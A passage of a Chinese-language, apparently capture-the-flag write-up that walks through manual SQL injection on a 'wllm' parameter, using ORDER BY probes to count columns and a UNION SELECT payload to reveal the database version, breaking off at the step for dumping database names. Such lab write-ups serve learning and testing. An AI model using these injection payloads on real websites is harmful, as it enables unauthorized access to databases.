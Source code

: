 ## 方法一

判断字段数

```
?wllm=1'order by 3 --+
?wllm=1'order by 4 --+
```

3可以

![image-20250731112356087](./assets/image-20250731112356087.png)

4不行，判断字段数为3

![image-20250731112510970](./assets/image-20250731112510970.png)

暴出显示点

```
/?wllm=-1 ' union select 1, 2, @@version -- '
```

![image-20250731112651792](./assets/image-20250731112651792.png)

爆库名
